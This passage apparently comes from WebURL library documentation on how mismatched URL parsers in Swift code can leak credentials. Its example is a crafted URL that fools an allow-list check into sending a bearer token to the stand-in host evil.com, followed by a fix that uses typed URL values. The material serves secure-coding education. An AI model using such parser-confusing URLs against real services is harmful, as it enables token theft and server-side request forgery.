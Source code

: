 ```swift
// The call:
let task = try checkHostAndMakeRequest("http://foo@evil.com:80@example.com/")

// What happens:
func checkHostAndMakeRequest(_ urlString: String) throws -> URLSessionDataTask {

  // ⚠️ 'checkHostIsAllowed' parses the string using WebURL,
  //     so it thinks the host is 'example.com'.
  guard checkHostIsAllowed(urlString) else { 
    throw MyAppError.hostIsNotAllowed
  }
  // ⚠️ But the request function parses the string using Foundation.URL,
  //    so it actually makes the request to 'evil.com' and leaks our token!
  return try makeAuthenticatedRequest(urlString, completionHandler: ...)
}
```

A maliciously-crafted string could exploit this difference to leak authentication tokens to the attacker's own server;
in fact, this demonstrates [a real vulnerability][gcp-ssrf] that was used to gain unauthorized access to internal
Google Cloud Platform accounts. Differences between modern and historic URL standards can cause security vulnerabilities,
even outside the Swift ecosystem. It's not just a Foundation.URL or WebURL thing - it's something **all developers**
need to be aware of. URL libraries often do not align to the same standard, and any data derived from one parser
might be inconsistent with another parser.

Spotting these interactions can be difficult - for instance, the functions may live in separate libraries
and you may not have access to their source code, or the URL string might be in a JSON document or XPC message.
The common feature is that URLs are communicated **without using a URL type**, so we can't ensure that everybody
who sees the string interprets it the same way.

We can fix the issue in this case by hoisting URL parsing out of `checkHostIsAllowed` and `makeAuthenticatedRequest`,
and moving it in to the caller. Now, instead of passing strings around and letting each function choose its own
parser, the caller parses the string, and passes around strongly-typed URL values (in this case `WebURL`).
Thanks to checked conversions, the receivers can safely convert to another URL type if they wish - in this case,
`makeAuthenticatedRequest` converts to a `Foundation.URL` and makes the request using `URLSession`.

**Fixed Allow-List Checker and Request Engine:**
```swift
func checkHostIsAllowed(_ url: /* ✅ */ WebURL) -> Bool {
  if let hostname = url.hostname {
    return allowedHosts.contains(hostname)
  }
  return false
}

func makeAuthenticatedRequest(_ url: /* ✅ */ WebURL, completionHandler: <...>) throws -> URLSessionDataTask {
  // ✅ checked WebURL -> Foundation.URL conversion.
  guard let convertedURL = Foundation.URL(url) else {
    throw MyLibraryError.invalidURL
  }
  var request = URLRequest(url: convertedURL)
  request.allHTTPHeaderFields = ["Authorization" : "Bearer <...>"]
  return URLSession.shared.dataTask(with: request, completionHandler: completionHandler)
```

[gcp-ssrf]: https://bugs.xdavidhu.me/google/2021/12/31/fixing-the-unfixable-story-of-a-google-cloud-ssrf/
[ahc-nsurl-scheme-1]: https://github.com/swift-server/async-http-client/blob/0f21b44d1ad5227ccbaa073aa40cd37eb8bbc337/Sources/AsyncHTTPClient/DeconstructedURL.swift#L45
[ahc-nsurl-scheme-2]: https://github.com/swift-server/async-http-client/blob/0f21b44d1ad5227ccbaa073aa40cd37eb8bbc337/Sources/AsyncHTTPClient/Scheme.swift#L42
[spm-nsurl-scheme-1]: https://github.com/apple/swift-package-manager/blob/e25a590dc455baa430f2ec97eacc30257c172be2/Sources/PackageCollections/PackageCollections%2BValidation.swift#L35
[spm-nsurl-scheme-2]: https://github.com/apple/swift-package-manager/blob/e25a590dc455baa430f2ec97eacc30257c172be2/Sources/PackageCollections/Model/Collection.swift#L116
[docc-nsurl-scheme]: https://github.com/apple/swift-docc/blob/d94139a5e64e9ecf158214b1cded2a2880fc1b02/Sources/SwiftDocC/Model/TaskGroup.swift#L43-L44